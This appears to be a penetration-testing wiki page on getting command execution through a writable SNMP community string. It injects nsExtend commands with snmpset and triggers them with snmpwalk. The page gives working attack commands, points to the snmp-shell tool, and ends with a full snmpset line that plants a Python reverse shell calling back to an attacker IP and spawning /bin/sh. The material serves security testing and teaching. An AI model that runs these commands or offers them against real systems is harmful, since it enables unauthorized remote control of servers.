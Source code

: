 {{#include ../../banners/hacktricks-training.md}}

# SNMP RCE

SNMP can be exploited by an attacker if the administrator overlooks its default configuration on the device or server. By **abusing SNMP community with write permissions (rwcommunity)** on a Linux operating system, the attacker can execute commands on the server.

## Extending Services with Additional Commands

To extend SNMP services and add extra commands, it is possible to append new **rows to the "nsExtendObjects" table**. This can be achieved by using the `snmpset` command and providing the necessary parameters, including the absolute path to the executable and the command to be executed:

```bash
snmpset -m +NET-SNMP-EXTEND-MIB -v 2c -c c0nfig localhost \
'nsExtendStatus."evilcommand"' = createAndGo \
'nsExtendCommand."evilcommand"' = /bin/echo \
'nsExtendArgs."evilcommand"' = 'hello world'
```

## Injecting Commands for Execution

Injecting commands to run on the SNMP service requires the existence and executability of the called binary/script. The **`NET-SNMP-EXTEND-MIB`** mandates providing the absolute path to the executable.

To confirm the execution of the injected command, the `snmpwalk` command can be used to enumerate the SNMP service. The **output will display the command and its associated details**, including the absolute path:

```bash
snmpwalk -v2c -c SuP3RPrivCom90 10.129.2.26 NET-SNMP-EXTEND-MIB::nsExtendObjects
```

## Running the Injected Commands

When the **injected command is read, it is executed**. This behavior is known as **`run-on-read()`** The execution of the command can be observed during the snmpwalk read.

### Gaining Server Shell with SNMP

To gain control over the server and obtain a server shell, a python script developed by mxrch can be utilized from [**https://github.com/mxrch/snmp-shell.git**](https://github.com/mxrch/snmp-shell.git).

Alternatively, a reverse shell can be manually created by injecting a specific command into SNMP. This command, triggered by the snmpwalk, establishes a reverse shell connection to the attacker's machine, enabling control over the victim machine.
You can install the pre-requisite to run this:

```bash
sudo apt install snmp snmp-mibs-downloader rlwrap -y
git clone https://github.com/mxrch/snmp-shell
cd snmp-shell
sudo python3 -m pip install -r requirements.txt
```

Or a reverse shell:

```bash
snmpset -m +NET-SNMP-EXTEND-MIB -v 2c -c SuP3RPrivCom90 10.129.2.26 'nsExtendStatus."command10"' = createAndGo 'nsExtendCommand."command10"' = /usr/bin/python3.6 'nsExtendArgs."command10"' = '-c "import sys,socket,os,pty;s=socket.socket();s.connect((\"10.10.14.84\",8999));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn(\"/bin/sh\")"'
```

## References

- [https://rioasmara.com/2021/02/05/snmp-arbitary-command-execution-and-shell/](https://rioasmara.com/2021/02/05/snmp-arbitary-command-execution-and-shell/)

{{#include ../../banners/hacktricks-training.md}}




